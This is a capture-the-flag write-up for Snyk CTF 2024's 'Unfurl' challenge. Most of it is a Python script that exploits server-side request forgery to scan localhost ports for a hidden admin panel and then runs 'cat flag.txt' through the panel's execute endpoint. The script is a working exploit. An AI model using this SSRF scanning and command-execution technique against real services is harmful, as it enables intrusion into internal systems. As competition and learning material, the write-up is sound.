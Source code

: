 # Challenge Statement 
![image](https://github.com/user-attachments/assets/46b6f599-7dba-4f67-8e1d-d08c886f07fd)

Attachment: [Unfurl.zip](https://github.com/harishkannan05/SnykCTF-2024-Writeup/blob/main/Attachments/Unfurl.zip)

# Solution
Diving into the source code, we find that this involves `SSRF (Server-Side Request Forgery`. <br/>

These vulnerabilities can be confirmed by using Snyk.
![image](https://github.com/user-attachments/assets/22eaff97-7e68-4791-9166-380900d28fee)

The application consists of a hidden admin panel running on a random port (between 1024-4999), which we could use to get the flag. <br/>
Using the help of ChatGPT, I was able to write a script which find the admin port, calls the execute endpoint and cats the flag.

```
import requests
import time

# Define the URLs
PUBLIC_UNFURL_URL = "http://challenge.ctf.games:30729/unfurl"
ADMIN_BASE_URL = "http://127.0.0.1:{}"

# Scan for the admin panel port
def find_admin_port():
    print("[*] Scanning for Admin Panel...")
    for port in range(1024, 5000):
        try:
            test_url = f"http://127.0.0.1:{port}/"
            payload = {"url": test_url}
            response = requests.post(PUBLIC_UNFURL_URL, json=payload)

            if response.status_code == 200 and ("Admin Panel" in response.text or "Welcome" in response.text):
                print(f"[+] Found Admin Panel on port {port}")
                return port
        except requests.exceptions.RequestException:
            continue
    return None

# Test SSRF before exploitation
def test_ssrf(admin_port):
    test_url = f"http://127.0.0.1:{admin_port}/system-info"
    payload = {"url": test_url}

    print(f"[*] Testing SSRF with URL: {test_url}")
    response = requests.post(PUBLIC_UNFURL_URL, json=payload)

    if response.status_code == 200 and "System Information" in response.text:
        print("[+] SSRF is working!")
        return True
    else:
        print("[-] SSRF test failed.")
        return False

# Use SSRF to execute a command
def exploit_ssrf(admin_port):
    payload_url = f"http://127.0.0.1:{admin_port}/execute?cmd=cat%20flag.txt"
    payload = {"url": payload_url}

    print(f"[*] Sending SSRF payload: {payload_url}")
    response = requests.post(PUBLIC_UNFURL_URL, json=payload)

    if response.status_code == 200:
        print("[+] Successfully exploited SSRF!")
        print("[+] Flag Output:\n")
        print(response.text)
    else:
        print("[-] SSRF attack failed.")

if __name__ == "__main__":
    admin_port = find_admin_port()
    if admin_port:
        if test_ssrf(admin_port):
            exploit_ssrf(admin_port)
        else:
            print("[-] SSRF seems blocked.")
    else:
        print("[-] Could not find the Admin Panel port.")
```

